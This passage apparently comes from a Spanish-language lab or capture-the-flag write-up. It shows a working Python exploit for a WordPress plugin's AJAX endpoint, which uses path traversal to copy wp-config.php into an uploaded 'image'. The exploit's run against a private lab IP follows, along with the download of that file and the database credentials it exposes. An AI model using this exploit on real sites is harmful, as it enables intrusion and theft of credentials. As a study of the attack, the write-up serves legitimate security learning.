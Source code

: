 ```python
exploit_url = f"{base_url}/wp-admin/admin-ajax.php?action=ave_publishPost&title={randomID}&short=rnd&term=rnd&thumb=../wp-config.php"

print(f"[+] Enviando payload a: {exploit_url}")

# Se realiza la solicitud
with urllib.request.urlopen(exploit_url) as response:
    created_url = response.read().decode().strip()
    print(f"[+] Post creado en: {created_url}")

# Se extrae el ID del post
match = re.search(r'\?p=(\d+)', created_url)
if match:
    post_id = match.group(1)
    final_url = f"{base_url}/?p={post_id}"

    print(f"[+] Leyendo contenido desde: {final_url}")
    with urllib.request.urlopen(final_url) as response:
        content = response.read().decode()
        print("[+] Contenido del wp-config.php (parcial):")
        print("="*60)
        for line in content.splitlines():
            if 'DB_' in line or 'define' in line:
                print(line)
else:
    print("[-] No se pudo extraer el ID del post.")
```
Se ejecutó y se validó el script adaptado, tomando en cuenta el certificado.
```python
$python3 39646.py 
[+] Enviando payload a: https://192.168.0.72:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=318330&short=rnd&term=rnd&thumb=../wp-config.php
[+] Post creado en: https://192.168.0.72:12380/blogblog/?p=310
[+] Leyendo contenido desde: https://192.168.0.72:12380/blogblog/?p=310
[...]

$wget --no-check-certificate https://192.168.0.72:12380/blogblog/wp-content/uploads/1083801387.jpeg
[...]
El propietario del certificado no se ajusta al nombre de equipo 192.168.0.72
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 3042 (3.0K) [image/jpeg]
Grabando a: 1083801387.jpeg

1083801387.jpeg      100%[=====================>]   2.97K  --.-KB/s    en 0s      

2025-05-20 14:55:22 (144 MB/s) - 1083801387.jpeg guardado [3042/3042]

$file 1083801387.jpeg 
1083801387.jpeg: PHP script, ASCII text
```
Dentro de la información obtenida, se encontró el siguiente pedazo de texto:
```python
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```